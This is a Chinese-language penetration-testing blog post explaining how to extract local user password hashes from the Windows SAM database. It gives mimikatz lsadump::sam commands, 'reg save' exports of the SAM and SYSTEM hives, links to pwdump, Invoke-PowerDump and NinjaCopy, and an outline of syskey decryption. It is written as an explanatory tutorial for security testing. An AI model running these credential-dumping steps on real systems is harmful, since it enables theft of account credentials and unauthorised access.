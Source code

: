 ```yaml
---
layout: post
title: 渗透技巧——通过SAM数据库获得本地用户hash
---
```



## 0x00 前言
---

在渗透测试中，获得了Windows系统的访问权限后，通常会使用mimikatz的`sekurlsa::logonpasswords`命令尝试读取进程lsass的信息来获取当前登录用户的密码信息，但想要全面获取系统中的密码信息，还要对SAM数据库中保存的信息进行提取，导出当前系统中所有本地用户的hash。

## 0x01 简介
---

本文将要介绍以下内容：

- 通过SAM数据库获得用户hash的多种方法
- 原理分析

## 0x02 通过SAM数据库获得用户hash的方法
---

### 1、在线读取SAM数据库

读取当前系统的SAM数据库文件，获得系统所有本地用户的hash

#### (1) mimikatz

```
privilege::debug
token::elevate
lsadump::sam
```

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/2-1.png)

#### (2) pwdump7

下载地址：

http://passwords.openwall.net/b/pwdump/pwdump7.zip

管理员权限执行，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/2-2.png)

#### (3) powershell

下载地址：

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1

管理员权限执行，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/2-3.png)

### 2、离线读取SAM数据库

获取当前系统的SAM数据库文件，在另一系统下进行读取

导出SAM数据库文件有以下两种实现方法：

#### (1) 保存注册表

管理员权限

```
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```

#### (2) 复制文件

```
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\SAM
```

默认无法被复制，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/2-4.png)

需要借助NinjaCopy，作者Joe Bialek，参考下载地址：

https://github.com/3gstudent/NinjaCopy

导出SAM数据库文件后，在另一系统，可通过以下方式导出用户hash：

#### (1) mimikatz

```
lsadump::sam /sam:SamBkup.hiv /system:SystemBkup.hiv
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/3-1.png)

**注：**

mimikatz的官方说明有问题，地址如下：

https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump

导出命令：

```
lsadump::sam SystemBkup.hiv SamBkup.hiv
```

会报错，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/3-2.png)

可用的命令由@我爱这个世界提供


### 补充：

以下工具在读取Win7系统的SAM数据库文件会报错

#### (1) Pwdump7

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/3-3.png)

#### (2) Pwdump5

下载地址：

http://passwords.openwall.net/b/pwdump/pwdump5.zip

读取结果不正确，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/3-4.png)

#### (3) cain

测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-2-8/3-5.png)


## 0x03 原理分析
---

### 1、读取HKLM\SYSTEM，获得syskey

读取注册表项`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa`下的键值`JD`、`Skew1`、`GBG`和`Data`中的内容，拼接成syskey

代码可参考：

https://github.com/johannwmeyer/quarkspwdump/blob/a68aa6330f37eb8d00055c73e6a4e3cb52bcdd6d/src/crypt.cpp#L222

https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_lsadump.c#L219

完整计算代码可参考：

https://raw.githubusercontent.com/3gstudent/Writeup/master/getsyskey.cpp

(Steal from http://www.zcgonvh.com/post/ntds_dit_pwd_dumper.html)


### 2、使用syskey解密HKLM\SAM

读取注册表项`HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users`下每个用户中F项和V项的内容，使用syskey进行一系列的解密

详细解密过程可参考如下链接：

http://www.xfocus.net/articles/200306/550.html


综上，想要通过SAM数据库获得用户hash，需要获得两个文件：HKLM\SYSTEM和HKLM\SAM

最直接的导出方式是读取当前系统下的注册表HKLM\SYSTEM和HKLM\SAM，但需要获得system权限

从admin切换到system权限的方法可参考之前的文章：[《渗透技巧——从Admin权限切换到System权限》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-%E4%BB%8EAdmin%E6%9D%83%E9%99%90%E5%88%87%E6%8D%A2%E5%88%B0System%E6%9D%83%E9%99%90/)


## 0x04 小节
---

本文介绍了通过SAM数据库获得所有用户hash的多种方法，关键在于读取HKLM\SYSTEM和HKLM\SAM


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)












